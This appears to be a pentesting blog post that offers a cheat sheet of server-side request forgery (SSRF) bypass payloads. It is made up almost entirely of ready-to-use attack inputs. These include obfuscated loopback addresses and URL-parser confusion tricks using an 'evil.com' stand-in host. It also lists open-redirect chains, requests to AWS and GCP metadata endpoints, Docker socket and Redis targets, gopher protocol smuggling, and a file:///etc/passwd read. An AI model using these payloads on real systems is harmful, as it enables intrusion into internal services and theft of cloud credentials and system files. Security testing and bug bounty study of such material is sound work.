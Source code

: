 ```yaml
---
title: " SSRF Bypass Payload Arsenal"
date: 2025-07-17 00:00:00 +0530
categories: [Vulnerability, SSRF]
tags: [Pentesting, Bug Bounty, SSRF, Vulnerability]
---
```


# SSRF Bypass Payload Arsenal
These help bypass SSRF filters or reach internal services despite basic protections.

### Common SSRF Filters You Might Face
-   Allowlist/Blacklist of domain or IP
-   `url.startsWith("http://")` or regex filtering
-   IP resolution checks (blocking `127.0.0.1`, etc.)
-   Schema restrictions (`http` only)

### IP Obfuscation Tricks
| Format | Payload Example | Purpose |
|--|--|--|
| Decimal | http://2130706433/ | 2130706433 = 127.0.0.1 |
| Hex | http://0x7f000001/ | Same as 127.0.0.1 |
| Octal | http://0177.0.0.1/ | Works if octal parsing is enabled |
| Mixed | http://127.1/ , http://127.000.000.001/ | Abbreviated loopback |
| Dotted Hex | http://0x7f.0x00.0x00.0x01/ | Segment-based hex |
| IPv6 | http://[::1]/ | Loopback IPv6 |
| DNS rebinding | Point DNS to internal IP | Server sees public IP but resolves internal |
| Encoded dots | http://127%2e0%2e0%2e1/ | URL-encoded dot bypass |

### Hostname Tricks

| Trick Type | Example |
|--|--|
| @ Symbol Confusion | http://127.0.0.1@evil.com/ |
| Reversed @ | http://evil.com@127.0.0.1/ |
| Fragment Bypass | http://127.0.0.1#evil.com/ |
| Encoded Fragment | http://127.0.0.1%23evil.com/ |

### Redirection & Open Redirect

| Type | Example |
|--|--|
| Redirect → Internal | http://evil.com/redirect?url=127.0.0.1 |
| Double Redirect Chain | evil.com → internal.com → 127.0.0.1 |
| URL Shortener Bypass | tinyurl.com/internalip |

### Redirect Bypass Tricks
```bash
http://evil.com/redirect?next=http://127.0.0.1/
```
| Trick | Description |
|--|--|
| Open Redirect + SSRF | Combine vulnerable redirect to reach internal resources |
| Double Redirect | Redirects to a URL that further redirects to internal IP |
| Wildcard DNS | Use domains like anything.yourdomain.com to simulate internal subdomains |
| URL shorteners | TinyURL or your own shortener to mask real internal target |

### URL Parser Confusion Tricks

| Payload | Behavior |
|--|--|
| http://127.0.0.1@evil.com/ | Looks like internal IP, but resolves to evil.com |
| http://evil.com@127.0.0.1/ | Most parsers think host is 127.0.0.1 |
| http://127.0.0.1#evil.com/ | Fragment ignored by server, only browser cares |
| http://127.0.0.1%23evil.com/ | Encoded # to confuse filters |

### SSRF to Internal Services
| Target | Payload |
|--|--|
| AWS Metadata | http://169.254.169.254/latest/meta-data/ |
| GCP Metadata | http://169.254.169.254/computeMetadata/v1/ (Add Metadata-Flavor: Google ) |
| Docker socket | http://localhost:2375/containers/json |
| Redis | gopher://127.0.0.1:6379/_PING |
| MySQL | mysql://127.0.0.1:3306/ |
| Memcached | memcached://127.0.0.1:11211

### Protocol Smuggling (Advanced)
If server allows more than `http://` ,  try :

-   `file://` – access local files
-   `gopher://` – inject raw bytes (Redis, FTP, etc.)
-   `dict://127.0.0.1:11211/` – another bypass channel
-   `ftp://`, `sftp://`, etc. – protocol abuse

Example :

```bash
gopher://127.0.0.1:6379/_%2a1%0d%0a%24%34%0d%0aPING%0d%0a
```

| Protocol | Payload Example |
|--|--|
| file:// | file:///etc/passwd |
| gopher:// | gopher://127.0.0.1:6379/... |
| dict:// | dict://127.0.0.1/ |
| ftp:// | ftp://127.0.0.1/ |

